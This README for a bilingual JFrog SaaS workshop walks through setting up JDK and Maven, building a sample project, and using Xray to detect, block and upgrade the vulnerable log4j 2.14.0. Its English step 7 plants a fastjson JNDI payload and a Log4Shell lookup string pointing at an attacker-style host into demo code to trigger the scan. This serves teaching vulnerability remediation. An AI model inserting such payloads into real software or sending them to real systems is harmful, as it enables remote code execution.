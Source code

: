 <details>
<summary>English</summary>

## Course Objectives

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This workshop aims to help you get started with JFrog SaaS and practice building a Maven project. By the end of this workshop, you will be able to:
- Apply for a JFrog SaaS trial and set up your environment.
- Clone and configure a Maven project.
- Build and deploy the project using JFrog CLI.
- Understand and remediate security vulnerabilities using JFrog Xray.

## 📝 Prerequisites

### JDK 17 Installation
1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)
   - Select JDK 17 (LTS) version
   - Choose the appropriate package for your operating system:
     - Windows: `.zip` archive
     - macOS: `.tar.gz` archive
   - For Windows:
     - Extract the `.zip` to a directory like `C:\Program Files\Java\jdk-17`
   - For macOS:
     - Extract the `.tar.gz` to `/Library/Java/JavaVirtualMachines/`

### Set Environment Variables

#### JAVA_HOME
1. Open System Properties (Win + S → "Environment Variables")
2. Click "Environment Variables" → "New" under System variables
3. Set:
   ```
   Variable name: JAVA_HOME
   Variable value: C:\Program Files\Java\jdk-17
   ```
4. In System variables, select "Path" → "Edit"
5. Click "New" and add:
   ```
   %JAVA_HOME%\bin
   ```
6. Click "OK" to save

### Verify Installation
   ```bash
   # Check Java version
   java -version
   ```
   Expected output:
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)
2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME Environment variables
1. In System variables, click "New"
2. Set:
   ```
   Variable name: MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. In "Path" variable, click "Edit"
4. Click "New" and add:
   ```
   %MAVEN_HOME%\bin
   ```
5. Click "OK" on all windows to save

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.

#### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   Expected output:
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
   Select "14-Day Free Trial", it will give you your own JFrog Platform.
   ![alt text](images/trial.png)

2. **Select AWS Region**
   - Choose either AWS Singapore or Tokyo region
   - This will provide better network performance for users in Asia
   - The region selection is available during the trial signup process

3. You will get an email containing the login credentials for the JFrog platform

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Enable Xray Scanning
1. Go to **Administrator -> Xray Settings → Index Resource**
2. Add to indexed Repository:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
3. Configure Index Build by Pattern:
   - Click Manage builds -> By Pattern
   - Input the rule as below: `**/*`
   - Click the + button
   - This will scan all builds in the system
     ![img_8.png](images/img_8.png)

### 5. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   This command will:
   - Add a new JFrog configuration named 'saas'
   - Prompt you to enter your JFrog platform details
   - Store your credentials securely
   - Set up the connection to your JFrog SaaS instance

   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password

### 6. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `.jfrog/projects/maven.yaml` pointing to your SaaS repositories.

### 7. Build and Deploy

Add the code below into the file DemoApplication.java -> main() under jfrog-poc-samples\maven-sample\src\main\java\com\example\jfrog\demo, to call the log4j vulnerable function.
```
    public static void main(String[] args) {
        String payload = "{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\",\"resourceName\":\"ldap://127.0.0.1:1389/Exploit\"}";
        JSON jsonObject = JSON.parseObject(payload);
        logger.info(jsonObject.toString());
        logger.error("${jndi:ldap://somesitehackerofhell.com/z}");

    }
```

```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 8. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**

</details>

<details>
<summary>繁體中文</summary>

## 課程目標
歡迎參加 **JFrog SaaS 試用工作坊！** 🎓  
本工作坊旨在幫助您開始使用 JFrog SaaS 並練習構建 Maven 項目。在本次工作坊結束時，您將能夠：
- 申請 JFrog SaaS 試用並設置您的環境。
- 克隆並配置 Maven 項目。
- 使用 JFrog CLI 構建和部署項目。
- 使用 JFrog Xray 理解和修復安全漏洞。

## 📝 前置需求

### JDK 17 安裝
1. **安裝 JDK**
   - 從 [OpenJDK](https://jdk.java.net/archive/) 下載並安裝 JDK
   - 選擇 JDK 17 (LTS) 版本
   - 選擇適合您作業系統的套件：
     - Windows：`.zip` 壓縮檔
     - macOS：`.tar.gz` 壓縮檔
   - Windows 系統：
     - 解壓 `.zip` 到目錄，如 `C:\Program Files\Java\jdk-17`
   - macOS 系統：
     - 解壓 `.tar.gz` 到 `/Library/Java/JavaVirtualMachines/`

### Set Environment Variables

#### JAVA_HOME
1. 打開系統屬性（Win + S → "環境變數"）
2. 點擊"環境變數" → 在系統變數下點擊"新建"
3. 設置：
   ```
   變數名稱：JAVA_HOME
   變數值：C:\Program Files\Java\jdk-17
   ```
4. 在系統變數中，選擇"Path" → "編輯"
5. 點擊"新建"並添加：
   ```
   %JAVA_HOME%\bin
   ```
6. 點擊"確定"保存

### 驗證安裝
   ```bash
   # 檢查 Java 版本
   java -version
   ```
   預期輸出：
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **下載 Maven**
   - 訪問 [Apache Maven 下載頁面](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - 下載二進制 zip 檔案（例如：`apache-maven-3.6.3-bin.zip`）
2️⃣ **解壓 Maven**
   - 將下載的 ZIP 檔案解壓到目錄，例如：
     ```
     C:\Program Files\Apache\Maven
     ```
   - 您的 Maven 資料夾結構應該如下：
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME 環境變數
1. 在系統變數中，點擊"新建"
2. 設置：
   ```
   變數名稱：MAVEN_HOME
   變數值：C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. 在"Path"變數，點擊"編輯"
4. 點擊"新建"並添加：
   ```
   %MAVEN_HOME%\bin
   ```
5. 點擊所有視窗的"確定"保存

> **注意：** 設置環境變數後，您需要打開新的命令提示字元才能使更改生效。

#### 驗證安裝
   ```bash
   # 打開新的命令提示字元並運行：
   mvn -version
   ```
   預期輸出：
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 開始使用

### 1. 申請 JFrog SaaS 試用
1. [申請 JFrog SaaS 試用](https://jfrog.com/start-free/)  
   選擇"14 天免費試用"，它將為您提供自己的 JFrog 平台。
   ![alt text](images/trial.png)

2. **選擇 AWS 區域**
   - 選擇 AWS 新加坡或東京區域
   - 這將為亞洲用戶提供更好的網絡性能
   - 區域選擇在試用註冊過程中可用

3. 您將收到一封包含 JFrog 平台登入憑證的電子郵件

### 2. 克隆項目
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. 創建 Maven 倉庫
![img_6.png](images/img_6.png)
1. 登入 JFrog SaaS 平台
2. 點擊**快速倉庫創建**（右上角）
3. 選擇 **Maven** 並創建：
   - 本地倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 遠程倉庫：`sample-maven-remote`
   - 虛擬倉庫：`sample-libs-snapshot` `sample-libs-release`

### 4. 啟用 Xray 掃描
1. 轉到 **管理員 -> Xray 設置 → 索引資源**
2. 添加到索引倉庫：
   - 倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
3. 配置構建索引模式：
   - 點擊 Manage builds -> By Pattern
   - 輸入規則如下：`**/*`
   - 點擊 + 按鈕
   - 這將掃描系統中的所有構建
     ![img_8.png](images/img_8.png)

### 5. Configure JFrog CLI
1. [下載 JFrog CLI](https://jfrog.com/getcli/)
2. 配置您的環境：
   ```shell
   jf c add saas
   ```
   此命令將：
   - 添加一個名為 'saas' 的新 JFrog 配置
   - 提示您輸入 JFrog 平台詳細信息
   - 安全存儲您的憑證
   - 設置與您的 JFrog SaaS 實例的連接

   按照提示輸入：
   - JFrog 平台 URL：`https://<YOUR_DOMAIN>.jfrog.io`
   - 用戶名
   - 密碼

### 6. Configure Maven
```shell
cd maven-sample
jf mvnc
```
這將生成指向您的 SaaS 倉庫的 `.jfrog/projects/maven.yaml`。

### 7. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 8. Verify Deployment
- 在 **Artifactory → Artifacts** 中檢查已部署的文件
- 在 **Builds** 部分查看構建信息

### Understanding log4j Vulnerability
檢測到 log4j 漏洞（CVE-2021-44228）是因為您的項目使用了 log4j-core 2.14.0。但是，只有在以下情況下才會被利用：

1. 使用易受攻擊的日誌模式：
   ```java
   // 易受攻擊
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // 安全
   logger.info("User logged in: {}", username);
   ```

2. **並且**當：
   - 記錄用戶控制的輸入
   - 輸入包含 `${jndi:ldap://...}` 模式
   - 應用程序可以訪問惡意服務器

這解釋了為什麼 Xray 顯示許多誤報 - 代碼中存在漏洞，但在您的使用場景中無法被利用。

### 9. 修復 log4j 漏洞

#### 9.1 審查漏洞
JFrog 高級安全已將此 log4j 包識別為真實漏洞。您可以在安全報告中查看詳細證據。
![img_1.png](images/img_1.png)

#### 審查誤報結果
![img_5.png](images/img_5.png)
> **86% 的嚴重/高風險漏洞是誤報**

![img_4.png](images/img_4.png)

#### 9.2 阻止易受攻擊的版本
![img_7.png](images/img_7.png)
1. **創建阻止條件：**  
   管理員 → 策展設置 → 創建條件  
   ![img.png](images/img.png)

2. **創建策略：**  
   ![img_2.png](images/img_2.png)

3. **清理緩存：**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **驗證阻止：**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **修復：更新 log4j 版本**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **重新構建：**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

構建應該成功，問題已修復。

7. **漏洞修復趨勢分析：**
平台 → Xray → 掃描列表 → 構建
![alt text](images/buildList.png)

構建應該成功完成，確認安全問題已修復。

> **祝您構建愉快，保持安全！🚀**

</details>

